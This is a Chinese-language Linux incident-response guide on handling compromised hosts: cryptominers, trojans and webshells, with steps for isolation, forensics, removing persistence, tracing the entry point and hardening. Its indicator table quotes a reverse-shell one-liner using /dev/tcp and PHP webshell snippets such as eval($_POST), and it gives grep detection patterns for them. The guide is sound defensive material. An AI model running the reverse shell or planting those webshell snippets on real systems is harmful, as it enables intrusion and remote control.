

# 安全应急响应：主机被入侵 / 挖矿 / 木马 / WebShell 处置闭环

::: tip 本篇定位
聚焦"**机器已经被黑了之后怎么办**"——发现迹象、隔离、现场取证、清除后门、溯源入口、加固复盘。与 [linux-security](./linux-security) 的"预防加固"互补：那篇讲怎么不被黑，这篇讲被黑后怎么收拾。命令按取证顺序给出，可直接复制。
本篇版本：内核 4.18~7.0、OpenSSH、常见挖矿木马/webshell 通用处置法；不依赖特定发行版。
:::

> 第一原则：**先隔离，再处置，别急着删文件。** 一上来 `rm -rf` 或重启，会删掉入侵痕迹、把攻击者逼到静默潜伏，下次更难查。

## 一、发现迹象：怎么知道中招了

| 迹象 | 典型表现 |
|---|---|
| 异常 CPU | CPU 长期 100%，top 里名字可疑（`kdevtmpfsi`、`xmrig`、随机字符串进程） |
| 异常外连 | `ss`/`netstat` 连到境外 IP、矿池端口（如 3333/5555/14444） |
| 异常定时任务 | crontab 多了 curl/wget 下载陌生脚本 |
| 异常登录 | `/var/log/secure` 有陌生 IP SSH 登录成功，或暴力破解记录 |
| 异常文件 | web 目录多了一句话木马（`.php` 里 `eval($_POST[...])`）、`/tmp` 下可疑二进制 |
| 异常权限 | 多了可疑用户、sudoers 被改、SSH authorized_keys 多了陌生公钥 |

快速初筛命令：

```bash
top -o %CPU                       # 找高 CPU 可疑进程
ps -ef --sort=-%cpu | head -20
ss -antp | grep ESTABLISHED      # 看当前外连
grep -r "CRON" /var/log/syslog    # 看定时任务执行
last -20                          # 最近登录记录
```

## 二、处置总流程（mermaid）



## 三、隔离（先做）

```bash
# 方案一：云平台安全组，只允许应急机 IP 访问，其他全断
# 方案二：本机防火墙（注意别把自己 SSH 断了，先放行自己的 IP）
iptables -A INPUT -s 你的应急IP -j ACCEPT
iptables -P INPUT DROP
# 彻底断网（物理/vnc 操作时）：ip link set eth0 down
```

::: danger 隔离时别断自己
下 DROP 规则前一定先 `iptables -A INPUT -s 你的IP -j ACCEPT`，否则把自己关在门外，只能去机房/VNC。矿机会向外连矿池，隔离就是掐这条链路。
:::

## 四、现场取证（按顺序，先易后难）

### 4.1 进程与 CPU

```bash
top -o %CPU
ps -ef --forest                       # 看进程树，找父进程
# 拿到可疑 pid 后，看它的完整路径与启动参数
ls -l /proc/<pid>/exe                 # 二进制真实路径（软链接指向）
cat /proc/<pid>/cmdline | tr '\0' ' '; echo
ls -l /proc/<pid>/cwd                 # 工作目录
cat /proc/<pid>/environ | tr '\0' '\n'   # 环境变量（有时藏代理/矿池地址）
```

### 4.2 网络连接

```bash
ss -antp                              # 所有连接+进程
ss -antp | grep ESTABLISHED           # 已建立的外连
# 把可疑外连 IP 记下来，后面溯源用
netstat -anp 2>/dev/null | grep -E "ESTABLISHED|LISTEN"
# 看是否有可疑监听端口（反弹shell）
ss -tlnp
```

### 4.3 持久化（重点，删干净才算完）

```bash
# 1) 定时任务
crontab -l
ls -l /etc/cron.* /var/spool/cron/    # 所有用户的 cron
cat /etc/crontab

# 2) systemd 启动项 / rc.local
systemctl list-unit-files --type=service | grep enabled
ls -l /etc/systemd/system/ /etc/rc.d/rc.local

# 3) SSH 后门公钥
cat /root/.ssh/authorized_keys
cat /home/*/.ssh/authorized_keys

# 4) 可疑用户与后门账号
cat /etc/passwd | grep -v nologin      # 能登录的用户
awk -F: '($3==0){print}' /etc/passwd   # UID=0 的，除了 root 都是后门
cat /etc/sudoers | grep -v "^#"

# 5) LD_PRELOAD / rootkit 库劫持
cat /etc/ld.so.preload                 # 有内容基本是 rootkit
```

### 4.4 WebShell 定位

```bash
# 在 web 根目录找一句话木马特征
grep -rEn "eval\s*\(|assert\s*\(|base64_decode\s*\(|GLOBALS\[" /var/www/html/ 2>/dev/null
# 找近期被修改的 php/jsp 文件（按时间）
find /var/www -name "*.php" -mtime -7 -ls
find /var/www -name "*.jsp" -o -name "*.jspx" | xargs ls -lt
# 找可执行的可疑脚本上传（图片马等）
find /var/www -type f -newermt "2026-09-01" -ls
```

### 4.5 一键取证快照（先存下来再动手）

把下面输出打包传到应急机，作为后续分析的现场证据，别只在屏幕上看一眼：

```bash
mkdir -p /tmp/forensic && cd /tmp/forensic
ps -ef --forest > ps.txt
ss -antp > ss.txt
netstat -anp > netstat.txt
lsof -nP > lsof.txt
cp -r /var/spool/cron .            # 定时任务全量
cp /etc/crontab .
cp /etc/passwd /etc/shadow /etc/sudoers . 2>/dev/null
find /home/root /root -name authorized_keys -exec cp {} . \; 2>/dev/null
dmesg -T > dmesg.txt
tar czf /tmp/forensic.tgz /tmp/forensic
# 把 forensic.tgz scp 到应急机后再动被黑机器
```

### 4.6 常见木马 / WebShell 特征对照

| 类型 | 典型特征 | 处置重点 |
|---|---|---|
| 挖矿木马 | 进程名 `kdevtmpfsi`/`kinsing`/`xmrig`，CPU 100%，连矿池 3333/5555 | 杀进程+清 cron/服务+改所有口令 |
| 反弹 Shell | `bash -i >& /dev/tcp/x.x.x.x/4444 0>&1`，可疑 LISTEN/外连 | 找发起脚本（cron/web），断外连 |
| WebShell（PHP） | `eval($_POST['x'])`、`assert($_REQUEST...)`、`system($_GET...)` | 定位上传入口漏洞，删文件+查 access.log |
| 隐藏账号 | `/etc/passwd` 里 UID=0 非 root，或 shell 伪装 | `awk -F: '($3==0)' /etc/passwd` 揪出 |
| Rootkit | `ps`/`netstat` 看不到自己的恶意进程，但 CPU 异常 | `ls /etc/ld.so.preload`，最稳妥是重装 |

## 五、清除后门与持久化

按"先杀进程 → 再删文件 → 最后清持久化"顺序：

```bash
# 1) 杀恶意进程（先杀子再杀父，防止父进程重启它）
kill -9 <pid>
# 2) 删恶意二进制
rm -f /tmp/xxx  /usr/bin/kdevtmpfsi

# 3) 清定时任务里的恶意行（编辑 crontab，不是整删）
crontab -e
rm -f /var/spool/cron/<可疑用户>

# 4) 删可疑 systemd 服务
systemctl stop <可疑服务>; systemctl disable <可疑服务>
rm -f /etc/systemd/system/<可疑服务>.service; systemctl daemon-reload

# 5) 清 SSH authorized_keys 里陌生公钥
# 6) 删后门用户 / 恢复 UID=0
userdel <可疑用户>
# 7) 清 /etc/ld.so.preload（rootkit）
> /etc/ld.so.preload
```

::: warning 删完必须重启验证
很多挖矿木马会互相守护：杀一个，另一个进程把它拉起来。所以**清完所有持久化后重启，再用上面的初筛命令复跑一遍**，CPU/外连/cron 不再出现才算清干净。清不干净就重装系统——这是最稳妥的。
:::

## 六、溯源入口：它怎么进来的

| 入口 | 怎么查 | 处置 |
|---|---|---|
| SSH 弱口令/暴破 | `last`、`/var/log/secure` 里登录成功的陌生 IP | 禁密码登录、改密钥、fail2ban、改端口 |
| Web 漏洞 | WebShell 所在目录、access.log 里对应时间的请求 | 修漏洞、升级组件、WAF |
| 暴露的组件未授权 | 看有没有暴露 Redis/Elasticsearch/Docker 2375 公网 | 关公网暴露、加认证、加防火墙 |
| 已知 CVE | 对比系统组件版本与公开漏洞 | 打补丁、升级 |

```bash
# 看登录日志
grep "Accepted" /var/log/secure | tail -30      # CentOS/RHEL
grep "Accepted" /var/log/auth.log | tail -30    # Debian/Ubuntu
# 看 Web 访问日志，定位 webshell 被访问时间点
grep "xxx.php" /var/log/nginx/access.log
```

## 七、加固与复盘闭环

- 改所有可能泄露的口令（SSH、数据库、后台）。
- SSH 禁密码登录、只留密钥；禁用 root 直接登录。
- 暴露面收敛：数据库/缓存/管理端口不对公网开。
- 打系统与组件补丁。
- 部署 HIDS（如 OSSEC/Wazuh）与文件完整性监控（Web 目录）。
- 复盘：入口是什么、为什么监控没提前发现、下次怎么早发现。

::: danger 应急红线
- **不要在没隔离前在被黑机器上"正常业务操作"**——攻击者可能在监视你的命令。
- 取证快照先保存（`ps`/`ss`/`cat` 输出重定向到应急机），再动手删。
- 涉及重要数据，先做磁盘镜像再分析，避免破坏证据。
- 清不干净就重装，别心存侥幸——留后门的机器不值得信任。
- 全盘改密码：一旦机器被黑，上面所有口令/密钥都视为已泄露。
:::

## 相关速查

- 预防加固（账号/SSH/防火墙）：[Linux 安全加固](./linux-security)、[iptables 防火墙](./linux-security-iptables)
- 异常进程/内存定位：[疑难杂症专题](./expert-tough-cases)
- 应急 Checklist：[/reference/ops-checklists](/reference/ops-checklists)
- 事故复盘流程：[事故管理与无指责复盘](./sre-incident)

### 官方文档

- SSH 加固：https://www.openssh.com/manual.html
- fail2ban：https://www.fail2ban.org/
- Wazuh HIDS：https://documentation.wazuh.com/
- Linux 日志：https://man7.org/linux/man-pages/man5/utmp.5.html
